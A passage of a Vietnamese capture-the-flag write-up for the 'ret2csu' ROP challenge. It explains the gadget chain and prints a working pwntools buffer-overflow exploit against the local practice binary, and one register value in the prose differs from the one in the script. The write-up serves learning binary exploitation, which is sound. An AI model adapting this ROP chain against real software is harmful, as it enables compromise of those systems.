 Đã tìm được hàm _fini không thay đổi giá trị gì. Về 2 thanh ghi rbp và rbx có thể kiểm soát được ở gadget1

Ta có được thứ tự payload:
 - 40 byte để tràn đến ret
 - gadget1: pop rbx, rbp, r12, r13, r14, r15, ret
 - giá trị tương ứng các thanh ghhi đã pop trên: 0, 1, hàm _fini, 0, 0xcafebabecafebabe, 0xdeadcafebabebeef 
 - gadget2: mov    rdx,r15 ; mov    rsi,r14 ; mov    edi,r13d ; call   QWORD PTR [r12+rbx*8]
   lúc này đã trở lại các câu lệnh ở gadget1
 - giá trị các thanh ghi: lúc này thì giá trị nào cũng được
 - Địa chỉ ret2win

**3. Viết script**

```
from pwn import *

elf = ELF('ret2csu')
r = process("./ret2csu")

gadget1 = 0x000000000040069a
gadget2 = 0x0000000000400680
fini = 0x600e48
ret2win = 0x000000000040062a
pop_rdi = 0x00000000004006a3

payload = b'a'*40
payload += p64(gadget1)
payload += p64(0) + p64(1) + p64(fini) + p64(0) + p64(0xcafebabecafebabe) + p64(0xd00df00dd00df00d)
payload += p64(gadget2)
payload += p64(0)*7
payload += p64(pop_rdi)
payload += p64(0xdeadbeefdeadbeef)
payload += p64(ret2win)

input()
r.sendlineafter('> ', payload)
r.interactive()
```

**4. Lấy flag**
